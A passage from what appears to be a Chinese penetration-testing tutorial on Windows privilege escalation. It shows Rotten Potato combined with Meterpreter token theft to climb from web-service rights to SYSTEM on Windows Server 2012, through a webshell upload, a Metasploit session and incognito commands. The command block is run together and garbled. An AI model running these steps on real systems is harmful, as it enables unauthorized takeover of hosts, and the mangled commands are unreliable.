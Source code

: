 服务权限配置:WEB权限或本地提权(web几率小)



\#补充说明:dll劫持提权及AlwaysInstallElevated等说明

dll劫持提权需要特定软件应用的控制权限及启用配合,复杂鸡肋

AlwaysInstallElevated提权默认禁用配置,利用成功机会很少



演示案例：

Win2012-烂土豆配合令牌窃取提权-Web权限

如果单单用令牌窃取,权限太低,无法窃取。例如,如果是web权限(IIS类似的服务权限)

原理:参考上述图片内容,非服务类用户权限无法窃取成功(原理)

过程:上传烂土豆-执行烂土豆-利用窃取模块-窃取SYSTEM-成功

- 
- 
- 
- 
- 
- 
- 

```
upload /root/potato.exe C:\Users\Publiccd C:\\Users\\Publicuse incognitolist_tokens -uexecute -cH -f ./potato.exelist_tokens -uimpersonate_token "NT AUTHORITY\\SYSTEM"
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaww0picKJxZbDKyVOxXq9GyxPf2ia75PCkwcSI8vp61Jp2KjdAUK2DTaIw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawu0bRHm7kIYaf04eu4cCiccHd2D7XgybmGzQR2nIxBmrnkMiaQT8w3jEQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

通过webshell上传木⻢,并且执行

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawm5cQjibSB4YEUBk5OxnKhWYEKRVACEcdvUXFKggUEErmBMQkiaO6ricicg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

执行之前先在msf上开启监听

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawBmPylvZ6Hhv9BDdlDzlOW7BaLKgoyjosSic84xxgJImP8Khz1NNuf7A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



执行之后在msf看到会话

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawX4Z7UibWUJiarazLHbWeSgRFic0DD1yValLQbhpkd0GKbk5Jlf2HXjWPA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

上传烂土豆并且执行(执行并非在webshell上执行,而是在MSF上执行)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaw0Bib1HluBL1vtzLAK9ZbAHx3elibeGpkzhYFEGOzV27emapZKoibnlKjA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



在msf中没有在C盘列表中看到potato.exe文件,但通过webshell我们可以知道我们已经上传了,在C盘根目录之后再使用令牌窃取
